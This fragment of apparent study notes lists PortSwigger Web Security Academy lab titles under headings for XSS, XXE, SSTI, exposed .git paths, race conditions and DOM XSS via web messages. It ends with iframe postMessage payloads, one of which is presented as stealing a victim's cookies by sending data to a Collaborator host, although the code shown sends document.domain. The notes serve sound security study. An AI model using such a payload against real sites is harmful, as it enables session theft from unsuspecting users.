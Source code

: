    - Exploiting cross-site scripting to capture passwords

   - Stored XSS into anchor href attribute with double quotes HTML-encoded (Website input field)

   - Exploiting XSS to perform CSRF


### * XXE
   - Exploiting XXE via image file upload


### * **SSTI**
   - Server-side template injection with a custom exploit

   - Basic server-side template injection (code context)




## **_.git path available_**
   - Information disclosure in version control history




## _**Account Registeration Functionality**_
### * **Application Logic**
   - Bypassing access controls using email address parsing discrepancies

### * **Race Conditions**
   - Partial construction race conditions




## _**addEventListener() located in app respone**_
   - DOM XSS using web messages
   - DOM XSS using web messages and a JavaScript URL
   - **_DOM XSS using web messages and JSON.parse_**

   Tip: In this lab we used this payload to fire the print() function. 

```
 <iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```


   However if we want to steal the victim's cookies instead, we can use this payload.
```
 <iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"JavaScript:location=`https://COLLAB-ID.oastify.com?cookie=`+document.domain\"}","*")'>
```



